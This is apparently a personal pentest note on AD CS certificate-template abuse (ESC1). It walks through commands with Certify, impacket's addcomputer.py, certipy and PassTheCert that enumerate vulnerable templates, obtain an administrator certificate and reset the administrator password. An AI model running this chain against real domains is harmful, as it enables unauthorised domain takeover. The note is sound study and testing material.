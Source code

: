 :PROPERTIES:
:ID:       88668f82-ad94-481f-9466-de6691494de2
:END:
#+title: Pentest - Active Directory - Certificate Services
#+filetags: :cert:activeDirectory:pentest:
#+hugo_base_dir:../


* Active Directory Certificate Services
[[https://social.technet.microsoft.com/wiki/contents/articles/3063.certutil-examples-for-managing-active-directory-certificate-services-ad-cs-from-the-command-line.aspx][social.technet.microsoft.com]]

Active Directory Certificate Services (AD CS) is an Active Directory server role which allows users to build PKI (Public Key Infrastructure). This can provide practical solutions for VPN access, SSL/TLS certificates and smart card logons, amongst other similar ubiquitous technologies you are likely to encounter on a daily basis. [[https://medium.com/@shaunwhorton/active-directory-certificate-services-domain-dominance-9ba2c54988d7][medium - shaun whorton]]




* Abusing misconfigured certificate templates

Use =Certify.exe= to enumerate Certificate Services [[https://github.com/GhostPack/Certify][GhostPack/Certify]]

#+begin_src sh
PS C:\ > .\Certify.exe find /vulnerable
#+end_src

#+ATTR_ORG: :width 1200
[[../static/images/certify1.png]]


Here's an example of a vulnerable cert template, which is used for client authentication.  Domain Users have enrollments rights, and they're also permitted to supply the subject (msPKI-Certificate-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT)

#+ATTR_ORG: :width 1200
[[../static/images/certify2.png]]

** Python
[[https://github.com/ly4k/Certipy]]



[[https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf][specterops - certified pre-owned]]
* Examples
** ESC1 vulnerability

#+ATTR_ORG: :width 1200
[[../static/images/certify3.png]]

- Client Authentication: True - an issued certificate can be used for client authentication purposes.

- Enrollee Supplies Subject : True - a Subject Alternative Name can be specified which allows a certificate to be requested as another user on the system (e.g., administrator).

- Requires Manager Approval : False - a requested certificate doesn't require approval from a user with certificate manager permissions.

- Enrollment Rights : Domain\Domain Computers - this gives low-level users the ability to request a certificate by simply joining a computer to the domain.


User happens to be able to join machines to the domain -- from *whoami /priv*

  #+begin_src sh
  Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
#+end_src

Use impacket to join a computer to the domain:

#+begin_src sh
addcomputer.py 'domain/<user>:<pw>' -method LDAPS -computer-name 'PC01' -computer-pass 'Welcome123'
#+end_src

Use _certipy_ to request cert for admin
#+begin_src sh
certipy req -username 'PC01$' -password 'Welcome123' -ca AUTHORITY-CA -target <ip> -template '' -upn 'administrator@domain'
#+end_src

Can try to auth

#+begin_src sh
certipy auth -pfx administrator.pfx
#+end_src

In this case there's a kerberos session error -> authenticate with LDAP instead of kerberos.  Use [[https://github.com/AlmondOffSec/PassTheCert?source=post_page-----8d6bbd770266--------------------------------][PassTheCert]] -- first convert
#+begin_src sh
certipy cert -pfx administrator.pfx -nokey -out user.crt
#+end_src
#+begin_src sh
certipy cert -pfx administrator.pfx -nocert -out user.key
#+end_src

Then, eg, change the admin password:
#+begin_src sh
python3 passthecert.py -action modify_user -crt user.crt -key user.key -domain <domain> -dc-ip <ip> -target administrator -new-pass
#+end_src
